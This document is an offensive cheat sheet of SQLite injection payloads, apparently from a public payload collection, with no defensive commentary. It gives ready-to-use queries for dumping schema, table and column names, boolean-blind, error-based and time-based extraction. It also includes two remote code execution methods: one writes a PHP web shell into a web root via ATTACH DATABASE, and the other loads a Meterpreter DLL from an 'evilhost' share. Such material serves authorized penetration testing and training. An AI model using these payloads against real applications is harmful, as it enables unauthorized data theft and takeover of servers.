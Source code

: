 # SQLite Injection

> SQLite Injection  is a type of security vulnerability that occurs when an attacker can insert or "inject" malicious SQL code into SQL queries executed by an SQLite database. This vulnerability arises when user inputs are integrated into SQL statements without proper sanitization or parameterization, allowing attackers to manipulate the query logic. Such injections can lead to unauthorized data access, data manipulation, and other severe security issues. 


## Summary

* [SQLite Comments](#sqlite-comments)
* [SQLite Version](#sqlite-version)
* [String Based - Extract Database Structure](#string-based---extract-database-structure)
* [Integer/String Based - Extract Table Name](#integerstring-based---extract-table-name)
* [Integer/String Based - Extract Column Name](#integerstring-based---extract-column-name)
* [Boolean - Count Number Of Tables](#boolean---count-number-of-tables)
* [Boolean - Enumerating Table Name](#boolean---enumerating-table-name)
* [Boolean - Extract Info](#boolean---extract-info)
* [Boolean - Error Based](#boolean---error-based)
* [Time Based](#time-based)
* [Remote Code Execution](#remote-code-execution)
    * [Attach Database](#attach-database)
    * [Load_extension](#load_extension)
* [References](#references)


## SQLite Comments

```sql
--
/**/
```

## SQLite Version

```sql
select sqlite_version();
```


## String Based - Extract Database Structure

```sql
SELECT sql FROM sqlite_schema
```
if sqlite_version > 3.33.0 
```sql
SELECT sql FROM sqlite_master
```


## Integer/String Based - Extract Table Name

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```


## Integer/String Based - Extract Column Name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

Cleaner output

```sql
SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');
```


## Boolean - Count Number Of Tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating Table Name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract Info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

### Boolean - Extract Info (order by)

```sql
CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('some_char') THEN <order_element_1> ELSE <order_element_2> END
```

## Boolean - Error Based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## Time Based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```


## Remote Code Execution

### Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled.


## References

* [Injecting SQLite database based application - Manish Kishan Tanwar - February 14, 2017](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
* [SQLite Error Based Injection for Enumeration - Rio Asmara Suryadi - February 6, 2021](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
* [SQLite3 Injection Cheat sheet - Nickosaurus Hax - May 31, 2012](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)
